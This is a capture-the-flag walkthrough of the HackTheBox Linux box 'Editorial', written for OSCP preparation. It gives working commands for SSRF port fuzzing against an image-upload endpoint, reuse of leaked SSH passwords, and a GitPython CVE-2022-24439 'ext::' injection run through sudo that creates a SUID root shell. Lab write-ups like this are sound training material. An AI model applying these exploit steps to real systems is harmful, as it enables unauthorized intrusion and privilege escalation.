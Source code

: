## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

- **Exploits Used:**  
  - SSRF in image upload to hit internal Flask API  
  - Internal API enumeration for dev SSH creds  
  - Git repo recovery for prod SSH creds  
  - CVE‑2022‑24439 GitPython “ext::” RCE via sudo  

**Open Ports:**  
- [SSH](SSH) 22/tcp  
- [HTTP](HTTP.md) 80/tcp  

**Tools:**  
nmap, ffuf, feroxbuster, Burp Suite, curl, git‑dumper, git, unzip/zip, Python 3 (requests), sshpass  

---

## Recon 🔍  
```bash
nmap -p- --min-rate 10000 10.10.11.20
```

```
nmap -p 22,80 -sCV       10.10.11.20
```

```

# Fuzz internal ports via SSRF endpoint
ffuf -u http://editorial.htb/upload-cover \
     -request ssrf.request \
     -w <(seq 0 65535) -ac
```

---

## Shell as dev 🐚  
1. **Exploit SSRF** on `/upload-cover` by supplying `http://127.0.0.1:5000` → retrieve JSON from internal API.  
2. **Enumerate endpoints**, hit `/api/latest/metadata/messages/authors` → leak:  
   ```
   Username: dev
   Password: dev080217_devAPI!@
   ```  
3. **SSH in** as dev:  
   ```bash
   sshpass -p 'dev080217_devAPI!@' ssh dev@editorial.htb
   cat user.txt
   ```

---

## Shell as prod 👤  
1. **Recover deleted apps repo** in `~/apps/.git`:  
   ```bash
   cd ~/apps
   git checkout .
   ```  
2. **Inspect git history** (`git log`) and diff `app_api/app.py` → find prod creds:  
   ```
   Username: prod
   Password: 080217_Producti0n_2023!@
   ```  
3. **SSH in** as prod:  
   ```bash
   sshpass -p '080217_Producti0n_2023!@' ssh prod@editorial.htb
   ```

---

## Shell as root 👑  
1. **Check sudo:**  
   ```bash
   sudo -l
   # Allows: python3 clone_prod_change.py *
   ```  
2. **Abuse GitPython RCE (CVE‑2022‑24439):**  
   ```bash
   sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py \
     'ext::sh -c "cp /bin/sh /tmp/rootshell; chmod 4755 /tmp/rootshell"'
   /tmp/rootshell -p
   whoami   # → root
   cat /root/root.txt
   ```

---

## Actions Learned 🎓  
- SSRF pivot to internal API  
- Automated API enumeration for creds  
- Git repo forensic recovery  
- GitPython protocol extension RCE via sudo  
- Crafting SUID shell via RCE  

---

## References 🔗  
- [CVE‑2022‑24439 — GitPython protocol.ext.allow exploit](https://nvd.nist.gov/vuln/detail/CVE-2022-24439)  
- Flask SSRF patterns in image‑upload handlers  
- GitPython `clone_from(..., multi_options=["-c protocol.ext.allow=always"])` behavior